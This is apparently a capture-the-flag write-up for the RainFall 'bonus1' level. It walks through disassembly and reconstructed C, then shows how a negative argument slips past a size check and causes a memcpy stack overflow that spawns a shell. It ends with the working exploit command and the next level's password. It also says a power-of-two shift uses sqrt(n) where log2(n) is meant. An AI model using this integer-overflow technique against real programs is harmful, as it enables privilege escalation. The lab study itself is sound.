 # bonus1

```
08048424 <main>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 e4 f0             	and    esp,0xfffffff0
 804842a:	83 ec 40             	sub    esp,0x40
 804842d:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048430:	83 c0 04             	add    eax,0x4
 8048433:	8b 00                	mov    eax,DWORD PTR [eax]
 8048435:	89 04 24             	mov    DWORD PTR [esp],eax
 8048438:	e8 23 ff ff ff       	call   8048360 <atoi@plt>
 804843d:	89 44 24 3c          	mov    DWORD PTR [esp+0x3c],eax
 8048441:	83 7c 24 3c 09       	cmp    DWORD PTR [esp+0x3c],0x9
 8048446:	7e 07                	jle    804844f <main+0x2b>
 8048448:	b8 01 00 00 00       	mov    eax,0x1
 804844d:	eb 54                	jmp    80484a3 <main+0x7f>
 804844f:	8b 44 24 3c          	mov    eax,DWORD PTR [esp+0x3c]
 8048453:	8d 0c 85 00 00 00 00 	lea    ecx,[eax*4+0x0]
 804845a:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804845d:	83 c0 08             	add    eax,0x8
 8048460:	8b 00                	mov    eax,DWORD PTR [eax]
 8048462:	89 c2                	mov    edx,eax
 8048464:	8d 44 24 14          	lea    eax,[esp+0x14]
 8048468:	89 4c 24 08          	mov    DWORD PTR [esp+0x8],ecx
 804846c:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048470:	89 04 24             	mov    DWORD PTR [esp],eax
 8048473:	e8 a8 fe ff ff       	call   8048320 <memcpy@plt>
 8048478:	81 7c 24 3c 46 4c 4f 	cmp    DWORD PTR [esp+0x3c],0x574f4c46
 804847f:	57 
 8048480:	75 1c                	jne    804849e <main+0x7a>
 8048482:	c7 44 24 08 00 00 00 	mov    DWORD PTR [esp+0x8],0x0
 8048489:	00 
 804848a:	c7 44 24 04 80 85 04 	mov    DWORD PTR [esp+0x4],0x8048580
 8048491:	08 
 8048492:	c7 04 24 83 85 04 08 	mov    DWORD PTR [esp],0x8048583
 8048499:	e8 b2 fe ff ff       	call   8048350 <execl@plt>
 804849e:	b8 00 00 00 00       	mov    eax,0x0
 80484a3:	c9                   	leave  
 80484a4:	c3                   	ret
```

```c
int main(int argc, char **argv) {
    char buffer[40];
    int value;

    value = atoi(argv[1]);
    if (value > 9) {
        return 1;
    }
    memcpy(buffer, argv[2], value * 4);
    if (value == 0x574f4c46) {
        execl("/bin/sh", "sh", NULL);
    }
    return 0;
}
```

This program is taking two parameters : the first one is parsed by libc `atoi` and stored into a variable on the stack at location `esp + 0x3c`, the second one is used as a source, and is copied into a stack allocated buffer at location `esp + 0x14` with `memcpy`. The `size` parameter of `memcpy` is the integer returned by `atoi` times 4.

There is check on `atoi` result : the number must be less or equal than **9**. This leads to a `memcpy` with a maximum size of **36**, preventing a stack overflow to occurs, because the destination buffer of `memcpy` (`esp + 0x14`) is **40** bytes in size.

Our goal is to overwrite memory location `esp + 0x3c` with the value `0x574f4c46` to get access to our shell. That is, to overwrite it from `memcpy`'s buffer with a **buffer overflow**, we must write 44 bytes ! It seems impossible since the size of the `memcpy` is capped at **36**.

But it is.

## Two's complement

This program does not check if the first argument is **negative**. Remember that computers store *signed* integers using two's complement representation. The integer `-1` is equal to `0xffffffff`.

`memcpy` takes a size as an `unsigned long` aka `size_t`, so it does not interpret the `size` argument as an signed integer. If you feed to the program `-1` as first argument, `memcpy` will try to write `0xffffffff * 4` bytes, which is `0xfffffffc` bytes. The program will **SEGFAULT** once it reach non-writable memory pages.


```
bonus1@RainFall:~$ ./bonus1 -1 foo
Segmentation fault (core dumped)
```

### Multiplication by a power of two

Maybe you are wondering why `0xffffffff * 4 = 0xfffffffc` ? First, there is an overflow, it do not fit into a 32 bits signed integer, the most significant bits are stripped. Second, we can simplify multiplication by a power of two **n** by a left bitshift of **sqrt(n)** position.
 
```
0xffffffff << 2 = 0xfffffffc <=> 0xffffffff * 4 = 0xfffffffc
```

We need to write **44** bytes. We need to find `x` such that :

```
x(twos_complement) * 4 = 44
```

## Putting it together

**44** in binary is `0b101100`. Remember that when we multiply by 4, we bitshift by 2, thus `(0b1011 << 2) == 44 == 0b101100`.

The smallest integer you can represent using two's complement with a 32-bit integer is :

```
-2147483648 (10)
0x80000000 (16)
10000000 00000000 00000000 00000000 (2)
```

Multiplying this number by 4 will make the most significant bit (or **sign** bit) overflow by 2 bit, leading to a value of **0**. But, we can set the four first bits to `1011`, so, when multiplied by 4, it will be equals to **44** !

```
10000000 00000000 00000000 00001011 (2) <=> -2147483637 (10)

<< 2 (or * 4)

00000000 00000000 00000000 00101100 (2) <=> 44 (10)
```

Quick verification under **GDB**, setting a breakpoint just before the `memcpy` call and dumping the last three value on the stack :

```
bonus1@RainFall:~$ gdb bonus1 
...
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   ...
   0x08048468 <+68>:	mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:	mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:	mov    DWORD PTR [esp],eax
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:	jne    0x804849e <main+122>
   0x08048482 <+94>:	mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:	mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:	mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:	call   0x8048350 <execl@plt>
   0x0804849e <+122>:	mov    eax,0x0
   0x080484a3 <+127>:	leave  
   0x080484a4 <+128>:	ret    
End of assembler dump.
(gdb) b *0x08048473
Breakpoint 1 at 0x8048473
(gdb) r -2147483637 test
Starting program: /home/user/bonus1/bonus1 -2147483637 test

Breakpoint 1, 0x08048473 in main ()
(gdb) x/3wx $esp
0xbffff6e0:	0xbffff6f4	0xbffff910	0x0000002c
            [  dest  ]  [   src  ]  [  size  ]
(gdb) p/d 0x0000002c
$2 = 44
```

Then, we just need to write **40** garbage characters to fill the buffer entirely, and the magic value `0x574f4c46` that will overwrite the variable stored at location `esp + 0x3c`.

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print("a"*40 + "\x46\x4C\x4F\x57")')
$ whoami
bonus2
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
Success !